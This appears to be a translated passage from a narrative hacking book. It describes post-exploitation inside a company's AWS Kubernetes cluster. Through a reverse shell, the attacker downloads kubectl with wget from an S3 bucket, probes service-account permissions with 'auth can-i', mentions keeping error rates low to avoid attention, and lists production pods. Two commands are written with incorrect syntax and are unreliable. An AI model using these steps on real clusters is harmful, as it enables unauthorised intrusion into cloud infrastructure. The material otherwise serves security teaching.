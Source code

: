 MXR Ads 正在运行由 Elastic Kubernetes Service（EKS）支持的 Kubernetes 1.14，这是 AWS 托管版的 Kubernetes。在这种设置中，AWS 在他们自己的主节点池中托管 API 服务器、etcd 和其他控制器，这些节点也被称为*控制平面*。客户（此处为 MXR Ads）只托管工作节点（数据平面）。

这是重要信息，因为 AWS 版本的 Kube 允许 IAM 角色与服务帐户之间建立比自托管版本更强的绑定。如果我们攻破正确的 Pod 并获取令牌，我们不仅可以攻击 Kube 集群，还可以攻击 AWS 资源！

我们继续探索，通过尝试从我们获取的 OpenAPI 文档中使用几个 API 端点。我们尝试了*api/v1/namespaces/default/secrets/*，*api/v1/namespaces/default/serviceaccounts*，以及一系列其他与 Kube 资源对应的端点，但我们反复收到 401 错误消息。如果我们继续这样下去，错误率将引起不必要的关注。幸运的是，有一个 Kube API 叫做*/apis/authorization.k8s.io/v1/selfsubjectaccessreview*，它可以立即告诉我们是否能够对给定对象执行操作。

手动通过`curl`查询调用它很麻烦，因为这需要一个长而丑陋的 JSON 负载，所以我们通过反向 Shell 下载 Kubectl 程序。这次我们不需要设置配置文件，因为 Kubectl 会自动发现由集群注入的环境变量，从挂载的目录加载当前令牌，并立即 100%正常运行。在这里，我们下载 Kubectl 二进制文件，使其可执行，并再次获取集群版本：

```
shell> **wget https://mxrads-archives-packets-linux.s3-eu-west-1.amazonaws.com/kubectl**

shell> **chmod +x kubectl && ./kubectl version**

Server Version: version.Info {Major:"1", Minor:"14+", GitVersion:"v1.14.6-eks-5047ed"...
```

完美！一切正常运行。现在我们反复执行`auth can-i`命令，针对最常见的指令——`get pods`、`get services`、`get roles`、`get secrets`等——全面探索我们正在操作的默认令牌所分配的所有权限：

```
shell> ./**kubectl version auth can-i get nodes**
no
shell> ./**kubectl version auth can-i get pods**
yes
```

我们很快得出结论，目前我们唯一拥有的权限是列出集群中的 Pods。但当我们明确执行`get pods`命令时，出现了以下错误：

```
shell> **./kubectl get pods**
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:prod:default" cannot list resource "pods" in
API group "" in the namespace "default"
```

如果我们尝试针对`prod`命名空间——也就是托管我们服务账户的命名空间——进行操作，会怎么样呢？

```
shell> ./**kubectl get pods -n prod**

stats-deployment-41de-4jxa1     1/1 Running   0    13h51m

redis-depl-69dc-0vslf           1/1 Running   0    21h43m

ssp-elastic-depl-3dbc-3qozx     1/1 Running   0    14h39m

ssp-feeder-deployment-13fe-3evx 1/1 Running   0    10h18m

api-core-deployment-d34c-7qxm   1/1 Running   0    10h18m
`--snip--`
```

不错！我们获得了在`prod`命名空间中运行的数百个 Pods 的列表。
